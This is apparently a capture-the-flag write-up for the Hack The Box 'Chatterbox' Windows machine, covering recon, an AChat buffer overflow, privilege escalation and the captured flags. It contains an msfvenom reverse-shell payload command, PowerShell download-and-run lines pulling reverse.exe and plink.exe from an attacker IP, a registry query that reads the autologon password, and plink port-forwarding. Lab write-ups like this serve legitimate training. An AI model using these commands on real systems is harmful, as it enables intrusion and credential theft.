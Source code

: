 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Tools and Techniques used, msfvenom, windows enumeration, port forwarding
tags: Windows, HTB, enumeration
---
```

# Chatterbox
# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```
![](https://lh3.googleusercontent.com/Ow3sXRep1uPWbz4lXhpFvPsKqG_lXQ_MqEDiewySwDGwFJK78AlJffdYrzFyWKPLKTysXJcJkFUDkTDhion_cUnvyqhkBfmyPQ_ZrTgnPkj25O0XXarfcs8KbC_JP2hblOuJrKL1two5ZkEcPb5pimX4wsddGgz4F7P1R5ACbrsMJiHAT1Xl-n_QkroP_xyB2TTIxxORo0xD4yXDJRVXXjOlAE9D6-U7xB8h41fSdeQoA176bBKF7xKf8w1wo8bbRSszz-Z-_IfF2wAhXmtMwwgf_OlUbog4qcQ6N8Os31Oywb_qaGtV59gs3xpPlrMZ7uKzh8GH_a-NR1JIkqEPF4IvGg1YmOKPMftdJkdxK7uG2qRcMGfAd9ippX_otvp1KY_mLz7bEfegGM8ft_IZ8iqtE0yLMMryuWJ5p3HoZbhwZzqLMHjopIrGx0oH4XGAwIsFxegKAscyn9JxkwXNSq_UapuAiLuviMnRlGFCLjsCReSscSThWWVkX0tLjY3nSD50o8iapeaZaQiimVpxqji3xTTx3ijBzWhfzRqlsJAylFfmUAfuCsqHnTn2NRFglhBG92Bbw78JNs4RuHQDlGwX9_bNZzJzHL8hwqGka-g8jzXrcdoSq-xQAiP6Yimuk8PQELf1b-UeQmO2UpsTyMQtiMG5iWrcU8UrHOV0nVpRH3m-GYouIek=w634-h248-no)

# EXPLOITATION
1. We use Achat python exploit "CVE:2015-1578 2015-1577"
2. We generate shellcode to use with the Achat BoF
```ruby
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' 
BufferRegister=EAX -f python
```
3. We set-up nc and we get a reverse shell as user Alfred.

**Optional**: You can also create a `meterpreter` shell with msfvenom and upload it to the target machine. Then use multi/handler to catch it.Ex
```ruby
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```
![](https://lh3.googleusercontent.com/E0KTtqED2h8NIIbu0TeAYzb_ZdtqpaWwMKpTnsVsF3sUjhBh7w017TcrkHWs8QSkfKLxseMPKHVS3ic6w60KZuBRs464UDvZb1BLy1ev_oCauy3a1e31bWoAOUSxwjeTuMkiPY2RxasW3vYYzdEWQlYa3OsYg_2Tfy9n_IKaAyjpBUf7kZXk7bWzbsT6Rsip-lnqI9OKtnuro5vQXYusqJA3lggcf0siKmIgM7Kr0yMdPs6lHqb9uokZYnGJ1zMWUNuOU7h-SiXUVcW8ayedQVYSi1Z0J8fqbZle8kFBQa2GEpDS7oNpEj95L00oaBcWJRZ46cEA_9UntAMA9xd3fFOr6eOA9dgqCknPSksADSeoEn6QuUsqlkAIYgbJ84zt9TEUfFw4gTQavyyrIeAWck4r7utnygDfzwPdeng6RKhR53yMP9xE5QdPnDDEYXHXeBGXkgJHJTtUTT7fdwWlROq4gMSmjOLdOUEl00r0P-YVJnmVbpZ4nNvDQn6kWWDygYd26o5CTG4bkS3b21DuW_Wj0aMBoDhLuXNrJA9-M_5XtJm6CoxxLV-ACYJGd6tsDBOvjrNuBqzMNQ2CQh1FmiSoGnahyooXZ3hrZvp2O7s29hnrPYkhpcjcXEdKVNHJuXcHgiv6emknwMetDGrXXlThMkAAzMpFoXPAFH-PKI7C9ulnhYTbB6I=w610-h500-no)

# Privilege Escalation Port-forwarding
1. Doing some priv-esc check we find the password for user Alfred

```ruby
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```ruby
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
![](https://lh3.googleusercontent.com/w8M3b82YBZqWsjkFH52BdDXFg08eoMzGRCu1ZhaHPAWFcbMD2USy-g7-qIswTFJ2t0Ai-c2uB6R0kpgCH1aRyqDYBsSBq-y4AIkiiN1EmMheKfhYUJdjL6my0AhUee3Od2RlC8YTq8H8XiyAJab3d1TzgNxHfOZeUgHPonBV0w4VtaHe5lENmhOJT1FQAZQRini2zh1xStD7anH1g1gnRdVhGuatw0sxlWZ6sDLwVNu8gDb5TwAwmLxOTZ99JX_y_d3lh351cJNubcjjBa1B-oUkFYT6SZPdECW1yIoqtE6s4KX5xnxkOEuPtdvLrLZSX5QQn-04EgqnUS48DmIgwXjYH9DMV4nbwfEgqq5jBf9fdNnpKodiFHrCVABcrkKnxVogEbtKUFxBd3TLNhG6gXAV3UbtHkh9TGPu1Jqq2RrFbqG-Wu0y7XxTXWnqYMx_WpDnK21BZwjZv7hUD8-u5T0evNwNiZUPWyXA3IC4RvS10aX_UwbzFWnLAujE3Wr27vE0C1r0qEWCWUqKmHFgsG5pEHQpzJt_OXnpXBrKlvKC8hcn51iP208DNvyDQHmOPz8espFyrcu0Vq9Jj6BrtOROWT3PXkEn7l4Tk3gpJLtIPqn5UFRednoDMgb7tp3bTym_5rHpswPsENPZY3tpkBJRSHdAF3lxWWKJ4KfUmBG6p97mA06nH_A=w795-h156-no)

2. We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```ruby
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
```
![](https://lh3.googleusercontent.com/hLxLdIRfKxQy28HlU6nV2w6JFmlMM7a3afhb2IxG_e4Ykz1FaZXiBsPq0zJIv9ezpDsKXHYm8irI5edlg1MYtsWOZudH6Onf-WxFLvbGarZ6qGYtrTN28Ai6z4whmkHJLH5iO0g2hWAp0QitHrvwbup2Lc7Z7lg2wHwWKRJ9AJ1nkVoYNVuJ-LtSl3DeJ6Hk6ZHQqwHqQoT0Wpitw15BrCyetmGr55kmVqAAG2SwEZVU_Bp0yC7B_EBz184H2KhvJUZQ_NGKbxqqSUOUhHrj9aKHFTEX1mJ-869u4fE6oimEY37Nv0w4yDWCcXOsvXM7sJGHAdLGm1Z001nIRcMiTIx8k1dVXmxqSULC1XtoPL56b0nH5yP3k8SRx88o--AYyyFY5mzURdVim5v3k9_rkUZZ9F4eJGHQOD-VzdqjQjNrNdgKQhk_LKmCT1y2i5ZGHTBxLfUUR2we1i_EIxnGUhVeleSP1oJT6vM06XlOnVYgLJC2uI5mOQHy42WVTnpeEyehVF5ClrSUIcbrROyl5zIs0E3dKOzaSzZIaIvbSujjUZl4Rtp01kyyhGgXRoSCjjqFxtLgesGCKzy3Mf_siDbhqIJfebTaUgtP76LNqyenmXgobsEiFdl6uAAapSDtUkcuTbTD84oCSsjFxoFzLCi6MqwiTd55ychDJTKYL5J1mesYYWDrX4o=w573-h319-no)

![](https://lh3.googleusercontent.com/ABF0QL82Mey0TC-c-kbA1mjoM4JsuHBECUzDFAghPFjcG6GC7PanvKqO7X2_v0cFmBNPzNhm6Le7GyJLEFFLggQaWnE3pvvZIMHCmf8Ot1QUEYta-S-poJnV_5oD4Gatwdi6SeYJvuxhbfEvf1rbxh8xExHZrOgYNCs9CPbWJNjxmY4KsF4o-CEt0RWkcAXVEnM7NZAWP_nd6cw8fqkMHP2HlDfBvjXh0URXLWdQJlUqT78-8Lhex2GejC9-I3EQqL6k_AcqCJJhQ9fDmuNnD0ChvbZZtKyJVyfse6URGDW0Hdhfa9rWDGX-AQ2gcC7zD4XnX9_1w1rDccvwz1NZCclaT3M02vR3qnMvsNhnOg9_24pEFSodDSLUdSNKFShEcUeqgVs36nyQM9XWmYV0ElpqYvGSnP7dcpCqHaH2xR-aHfFIy0Xrw-cYeNgN9EYlhcJ0T9tO5X54rBo3vMJ0PWNwBs_UjjL_Ows6Bq6VkWT9T-jWHtbGREfd0xboX6yMetg32u6Pf1hc9QK4U92oJPGNFjn6Ir7A7nT245KHjKDyouZqvGmWH1NWvneHfDs1k_8Ur-F93cHJMQhwV9Qq9ThFch11iRHFm41jmXN_8AaOSMTNjZKuh1mzIOMK-eKVntM1bwUiWV-TSs_liP05m_oInhZa6MZrXPRCj7foAQwPetDeuvAf2VM=w995-h94-no)

Then.
```ruby
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
![](https://lh3.googleusercontent.com/3hgewaHdfTeTGCjqWaAFIJpoNsUznouWC1xlwtoIgnhF6HpRn22Z0FbnrDC8mXzVf9_5xwQe3rJi16uK83JauxdvQ3hvMnNz83WR-ff7CiC29tmWxPIElI6e47v80VrQD04tjeaLPel2qJEfv3qwDMAwzXYz99LO8PYoloRu2zuf1GiE-yTbBG4QIWhzr7WXpCOs7_kgYueM46LQhoxZinHBrhe6sVxhFpra-49dHolelEogpxFSEj0Nf1m5xeE_toUHaY9cDYwmdPm8bjZ8_gOd1PlsChrRNMj0QFQ-YyXvAN5kWocC7zQ86p42jrFxRQlhbIEoQQGBMun81Zfd9nUh6pmYuVJ1Yu6jtvaOm0bAjN7sG_ziN964v9_0DPjaFlpNbsB03AM3pSxpzUwIQXQVLQ61WuRYTNF1039tiKnfG6AeXCP5TuQqS5z-BpVQ29hyD44B_KR8MChHtQRHy2tpuxjEAdxpZa-HoFHmTjau7TSuEDe0FGynjcLVuUgcnTMCkJnF2BXme1LENos41q_CFiJCBswLoe3V5Y84VUUkNWd4-H0GfWW5Z4D50pMW3wPVYd3JaHmNI2aPydPlkoUT1Vjna9RETPovCkd-2DAxu4Q6ItEDFl4qkEG7tBX3SYbZ_vwcsb3oOZC4cCvo5V3LBewHKcbC6myd9b-77gUIwK-vF2W8EC8=w671-h377-no)

3. We check with netstat to make sure the port 445 is open and connecte to us
4. The we connect reverse using **winexe** and password **"Welcome1!** and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe
```
![](https://lh3.googleusercontent.com/qJ_iqW9ZDj5NmYHAZhf9jIyp64xLkOF40n8BlPayOvlhVlO6ES1Ud4QqmtpzKuR_jeKSZFcUhGcM5wHNsX089y1-UEH-czLi5PQDnrWRpHcLiRC4HN0a1t_gH6w84RyS2AlIS_vb1ocXjiOV04l-fyvKXqjzqXO0dx2fEG5Siq8hQrJTKsXsDt3yGy_gvGbjLC25SQq97tleHu8n4SCnv2Cjc6DD_6KwehKy7RrJw601snGgZs1Lyx3dpGCcYkOqq2agv-ByaJqWdbhu8cWlzmKQIj-TpuYuFSknz0G0NAjmb0f3IN-ozXv7dP284IcPrDprQFC88QeD_PHfaowY7KERozetcjAFuo1zvQXVDf4Ke20SNOF8lUH8HxjFJxR3uWM8tDu5z9PeTSwvX7NDl2QewQvC1iWSBpNhYotcvim9J4AekXJfTRoUJ1kzaKhbWc7l52ycI8xMUEL9cO0MTMRWN99oD-4KYzZuuGliQT96SpupGQh6PBo9NHgiESB60RbgoAC0bBYDmNkiFzz8VfnDTisQUcXlNpxhvp292s0gjKAhlB04IKC2kKdzPetPbnp51hdsYQ9bFMXerg5vguBK7hew6k6bgzewhoQ5otrBQdVh68vowY2lKnV3aDVD_YnWwP0K2gjFDVUmMUj4rmf95niOwpzc6AGgxgihyn64Q88xaoL6Hq8=w698-h203-no)

# FLAGS
USER  72290246dfaedb1e3e3ac9d6fb306334
ROOT a673d1b1fa95c276c5ef2aa13d9dcc7c 
